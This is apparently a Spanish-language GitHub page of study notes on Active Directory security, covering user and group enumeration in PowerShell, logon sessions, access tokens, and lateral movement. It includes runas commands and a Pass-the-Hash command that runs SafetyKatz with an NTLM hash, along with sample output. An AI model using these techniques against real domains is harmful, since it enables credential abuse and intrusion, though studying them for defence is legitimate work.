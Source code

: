 ## Tabla de contenido

- [Enumeración](#Enumeración).
- [Token](#Token).
- [Negrilla](#negrilla).
- [Viñetas para tablas de contenido](#vinetas).
- [insertar imágenes](#insertar-imagenes).
- [Insertar enlaces](#insertar-enlaces).
- [Hacer anclaje](#hacer-anclaje).
- [Insertar una línea de código](#insertar-una-linea-de-codigo).
- [Insertar un bloque de código](#insertar-un-bloque-de-codigo).
- [Resaltar el código](#resaltar-el-codigo).
- [Insertar tablas](#insertar-tablas).
- [Otras referencias sobre Markdown](#otras-referencias-sobre-markdown).

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *Logon Sesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Moviliento_latera

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-The-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
